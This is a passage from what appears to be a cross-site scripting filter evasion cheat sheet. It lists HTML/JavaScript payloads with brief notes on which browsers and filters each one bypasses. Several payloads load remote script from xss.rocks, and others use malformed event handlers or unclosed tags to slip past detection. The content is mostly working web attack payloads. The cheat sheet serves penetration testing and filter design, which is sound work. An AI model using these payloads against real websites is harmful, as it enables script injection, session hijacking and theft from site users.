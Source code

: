```html
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
```

Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc...) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:

```html
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.

```html
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
```

## Extraneous Open Brackets

Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:

```html
<
<script>
  alert('XSS'); //\<
</script>
```

## No Closing Script Tags

In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don't actually need the `\></SCRIPT>` portion of this Cross Site Scripting vector. Firefox assumes it's safe to close the HTML tag and add closing tags for you. How thoughtful\! Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they're not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:

```html
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
```

## Protocol Resolution in Script Tags

This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh's protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a `</SCRIPT>` tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The ".j" is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.
